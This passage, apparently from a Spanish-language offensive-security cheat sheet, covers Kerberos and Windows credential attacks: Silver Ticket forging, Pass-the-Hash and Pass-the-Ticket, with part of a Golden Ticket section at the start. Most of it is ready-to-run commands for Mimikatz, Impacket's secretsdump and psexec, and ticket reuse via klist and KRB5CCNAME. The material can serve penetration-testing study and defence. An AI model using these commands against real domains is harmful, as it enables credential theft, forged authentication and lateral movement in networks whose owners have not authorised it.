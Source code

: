     # Crear Golden Ticket en una máquina Windows con Mimikatz
    # Utiliza la información obtenida para crear el ticket
    ```

### Silver Ticket
- **Descripción**: Falsifica un Ticket Granting Service (TGS) para un servicio específico.
- **Método**: Dump de hash de cuenta de servicio y creación de TGS.
- **Herramienta**: `Mimikatz`.
- **Comandos**:
  - **Windows**:
    ```bash
    mimikatz # kerberos::golden /domain:example.com /sid:S-1-5-21-... /target:server /rc4:<hash> /user:svcAccount /service:HTTP /target:server.example.com
    ```
  - **Kali Linux**:
    ```bash
    # Dump de hash de la cuenta de servicio
    secretsdump.py example.com/user:password@<DC_IP>

    # Crear Silver Ticket en una máquina Windows con Mimikatz
    # Utiliza la información obtenida para crear el ticket
    ```

### Pass-the-Hash (PtH)
- **Descripción**: Usa el hash NTLM en lugar de la contraseña.
- **Método**: Dump de hashes y autenticación usando el hash.
- **Herramienta**: `Mimikatz` (Windows), `Impacket` (Kali Linux).
- **Comandos**:
  - **Windows**:
    ```bash
    mimikatz # sekurlsa::pth /user:Administrator /domain:example.com /ntlm:<hash> /run:cmd.exe
    ```
  - **Kali Linux**:
    ```bash
    impacket-psexec Administrator@192.168.1.10 -hashes :<hash>
    ```

### Pass-the-Ticket (PtT)
- **Descripción**: Usa tickets Kerberos robados para autenticarse.
- **Método**: Dump de tickets y reutilización.
- **Herramienta**: `Mimikatz` (Windows), `Rubeus` (Windows), `Impacket` (Kali Linux).
- **Comandos**:
  - **Windows**:
    ```bash
    klist add <ticket.kirbi>
    ```
  - **Kali Linux**:
    ```bash
    export KRB5CCNAME=<ticket.ccache>
    ```
